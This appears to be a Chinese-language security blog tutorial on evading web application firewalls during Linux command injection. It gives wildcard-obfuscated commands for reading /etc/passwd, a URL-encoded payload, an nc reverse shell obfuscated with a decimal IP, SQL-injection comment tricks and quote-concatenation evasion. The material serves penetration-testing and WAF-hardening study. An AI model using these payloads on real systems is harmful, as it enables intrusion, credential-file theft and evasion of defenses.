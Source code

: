 ```yaml
---
title: 绕过waf之命令执行
categories:
- waf
tags:
- waf
---
```


## 引子
人生不是做菜，不能等所有材料准备好了再下锅。

## 参考资料
[命令执行的一些绕过技巧](https://chybeta.github.io/2017/08/15/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E7%9A%84%E4%B8%80%E4%BA%9B%E7%BB%95%E8%BF%87%E6%8A%80%E5%B7%A7/)

[Web Application Firewall (WAF) Evasion Techniques](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

[Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)

## 正文
本文要讨论的是在linux系统中，当有rce(远程命令执行)漏洞时，绕过waf的操作有哪些。

### 基础知识提要
wildcard通配符，又叫做globbing通配符，有很多语法可以使用？/和数字+字母，就可以执行系统命令。
例如：

![13](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/13.PNG)

```
/???/?s --help
就通过通配符，代替了/bin/ls --help，执行了系统命令
```
如果防火墙没有过滤？和/,那么就可以构造通配符的命令注入

使用这种方式  `/bin/cat /etc/passwd`

可以写为       `/???/??t /??c/p???w?`

然后url编码一下，`%20%2f%3f%3f%3f%2f%3f%3f%74%20%2f%3f%3f%63%2f%70%3f%3f%3f%77%3f`就可以绕过waf进行命令执行。

`/???/??t /??c/p???w?`虽然会执行`/bin/cat /etc/passwd`，但是同时也会执行/dev/net，/etc/apt，因为/???/??t就是以t结尾，规定了字符长度而已，所以会grobbing匹配，也就是环回滚动依次匹配的意思。

### nc反弹shell的案例
```
nc -e /bin/bash 127.0.0.1 1337

/???/n? -e /???/b??h 2130706433 1337
```
使用上面提到的方式，可以将nc反弹shell的语句修改为这样。

![14](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/14.PNG)

可以在线转换ip转换为int，这样可以避免使用IP中的小数点，进一步绕过waf规则。

>这里普及一下基础知识：IP地址是一个32位的二进制数，通常被分割为4个“8位二进制数”（也就是4个字节）。IP地址通常用“点分十进制”表示成（a.b.c.d）的形式，其中，a,b,c,d都是0~255之间的十进制整数。例：点分十进IP地址（100.4.5.6），实际上是32位二进制数（01100100.00000100.00000101.00000110）

### 使用`?`而不是`*`

在linux中，？和*都可以作为通配符。但是在sql中`/*代表注释*/`，所以最好使用更加不容易被过滤的`？`而不是`*`

### 如果过滤了ls可以使用echo
echo /???/??ss??

可以枚举存在的目录和文件
![15](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/11-11-12/15.PNG)

### sql注入-waf绕过
使用注释/**/代替空格，例如`/?id=1+un/**/ion+sel/**/ect+1,2,3--`
不能在本地文件包含或者命令执行中使用。

参考fluxcapacitor，使用连接字符串，绕过waf

### 连接符过waf
这种方法可以过滤以正则表达式搜索短语的过滤规则。

#### 加号
+ 加号，在许多编程语言中，通常可以连接两个字符串

#### 点号
在php中，点号.可以连接两个字符串，例如
```
$ php -r 'echo "hello"." world"."\n";'
hello world
$ python -c 'print "hello" + " world"'
hello world
```
#### 空格和双引号

在python中，空格和双引号可以连接两个字符串，例如：
`python -c 'print "te" "st"'`

#### 单引号
在bash中，单引号可以作为连接符，注意单引号要成双数来闭合引号。
```
# echo test
# echo 't'e's't
# echo 'te'st
# echo 'te'st''
# echo 'te'''st''
```
